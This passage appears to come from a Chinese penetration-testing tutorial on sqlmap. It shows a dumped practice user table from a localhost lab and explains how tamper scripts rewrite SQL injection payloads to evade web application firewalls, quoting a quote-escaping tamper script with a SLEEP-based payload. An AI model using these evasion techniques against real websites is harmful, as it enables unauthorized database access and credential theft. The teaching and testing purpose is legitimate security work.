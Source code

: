```shell
5 directories, 70 files
Ubuntu# cat /root/.local/share/sqlmap/output/localhost/dump/security/users.csv
id,username,password
1,Dumb,Dumb
2,Angelina,I-kill-you
3,Dummy,p@ssword
4,secure,crappy
5,stupid,stupidity
6,superman,genious
7,batman,mob!le
8,admin,admin
9,admin1,admin1
10,admin2,admin2
11,admin3,admin3
12,dhakkan,dumbo
14,admin4,admin4
```

#### 利用 tamper 绕过 WAF

在云时代网络中，很多部署网站的服务器都会提供 WAF（Web 防火墙）服务。在未部署的情况下，云厂商如果检测到 Web 攻击请求，可能会发短信通知你开启 WAF 服务。之前我在一次渗透测试工作中就是如此：原本未部署 WAF 的网站，在 SQL 注入的过程中，突然就开启 WAF 拦截了。

tamper 正是对 sqlmap 进行扩展的一系列脚本，可在原生 payload 的基础上做进一步的处理以绕过 WAF 拦截。sqlmap 里有个 tamper 目录，里面放着很多脚本，比如编码、字符替换、换行符插入。

我们先来看下 sqlmap 自带的一个最简单的，用于转义单引号的 tamper 脚本：

```python
#!/usr/bin/env python
"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL
def dependencies():
    pass
def tamper(payload, **kwargs):
    """
    Slash escape single and double quotes (e.g. ' -> \')
    >>> tamper('1" AND SLEEP(5)#')
    '1\\\\" AND SLEEP(5)#'
    """
    return payload.replace("'", "\\'").replace('"', '\\"')
```

它主要由 3 个部分组成。

* **priority**：代表优先级，当使用多个脚本时可定义执行顺序。

* dependencies：对依赖环境的声明，比如输出日志，可不写。

* tamper：主函数。payload 代表 sqlmap 自带的测试语句；kwargs 代表请求参数，可以用来修改 http 头信息。**tamper 主要是对原生 payload 做一些替换处理，这是绕过 WAF 的关键点**。
